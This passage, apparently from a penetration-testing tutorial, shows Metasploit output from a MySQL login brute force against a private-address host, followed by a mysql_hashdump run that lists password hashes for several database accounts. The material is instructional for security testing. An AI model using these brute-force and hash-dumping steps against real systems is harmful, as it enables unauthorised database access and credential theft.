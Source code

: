 ```
[*] 10.0.250.71:3306      - 10.0.250.71:3306 - Found remote MySQL version 5.6.30
[-] 10.0.250.71:3306      - 10.0.250.71:3306 - LOGIN FAILED: mysqlsec:AzVJmX (Incorrect: Access denied for user 'mysqlsec'@'10.0.250.67' (using password: YES))
[-] 10.0.250.71:3306      - 10.0.250.71:3306 - LOGIN FAILED: mysqlsec:j1Uyj3 (Incorrect: Access denied for user 'mysqlsec'@'10.0.250.67' (using password: YES))
[-] 10.0.250.71:3306      - 10.0.250.71:3306 - LOGIN FAILED: mysqlsec:root (Incorrect: Access denied for user 'mysqlsec'@'10.0.250.67' (using password: YES))
[-] 10.0.250.71:3306      - 10.0.250.71:3306 - LOGIN FAILED: mysqlsec:mysql (Incorrect: Access denied for user 'mysqlsec'@'10.0.250.67' (using password: YES))
[+] 10.0.250.71:3306      - MYSQL - Success: 'mysqlsec:password'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## How to dump mysql hash ?

```
msf auxiliary(mysql_hashdump) > show options

Module options (auxiliary/scanner/mysql/mysql_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  password         no        The password for the specified username
   RHOSTS    10.0.250.71      yes       The target address range or CIDR identifier
   RPORT     3306             yes       The target port
   THREADS   1                yes       The number of concurrent threads
   USERNAME  mysqlsec         no        The username to authenticate as

msf auxiliary(mysql_hashdump) > run

[+] 10.0.250.71:3306      - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.0.250.71:3306      - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.0.250.71:3306      - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.0.250.71:3306      - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.0.250.71:3306      - Saving HashString as Loot: debian-sys-maint:*8E970943FBFAA7CF6A11A55677E8050B725D9919
[+] 10.0.250.71:3306      - Saving HashString as Loot: phpmyadmin:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.0.250.71:3306      - Saving HashString as Loot: freepbxuser:*433D16EECA646A6CCF8F024AD8CDDC070C6791C1
[+] 10.0.250.71:3306      - Saving HashString as Loot: mysqlsec:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.0.250.71:3306      - Saving HashString as Loot: mysqlsec:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
